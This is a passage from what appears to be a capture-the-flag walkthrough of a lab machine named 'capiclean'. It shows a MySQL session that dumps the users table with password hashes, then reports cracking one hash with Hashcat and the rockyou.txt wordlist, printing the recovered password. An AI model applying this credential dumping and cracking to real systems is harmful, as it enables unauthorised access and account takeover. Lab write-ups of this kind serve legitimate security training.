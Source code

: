 ```
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use capiclean;
use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.01 sec)

mysql> 
```

# Cracking Hashes
Hashcat found the password of the `consuela` user. Rockyou.txt wordlist was used.
```
0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:simple and clean
```
